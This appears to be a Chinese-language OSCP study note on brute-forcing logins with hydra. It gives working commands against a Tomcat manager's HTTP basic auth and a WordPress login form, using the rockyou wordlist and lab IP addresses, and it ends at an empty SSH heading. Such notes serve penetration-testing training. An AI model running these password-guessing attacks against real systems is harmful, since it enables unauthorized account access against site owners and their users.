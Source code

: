 # 描述

OSCP常见的登录认证爆破

# http 登录认证爆破

## http basic 认证爆破
  
`hydra -l tomcat -P rockyou.txt  192.168.0.109 -s 8080 http-get /manager/html -t 64`

或者
`hydra -l tomcat -P rockyou.txt  http-get://192.168.0.109:8080/manager/html -t 32`

- -l 参数指定用户名
- -P 指定口令文件，文件中每行一个口令
- -s 指定端口
- -t 指定线程数量

## http 表单认证爆破

http[s]-{head|get|post} 
http[s]-{get|post}-form

基本用法： hydra -l username -P password-list {service}://{host}:{port}/{url}:{form}:{keywords}

- form 是表单的构成
- keywords 是登录失败时出现的关键字

`hydra -l admin -P rockyou.txt "http-post-form://192.168.154.190:80/wordpress/wp-login.php:log=admin&pwd=^PASS^&wp-submit=Log+In&redirect_to=http%3A%2F%2F192.168.154.190%2Fwordpress%2Fwp-admin%2F&testcookie=1:incorrect"`

# ssh 登录认证爆破





## 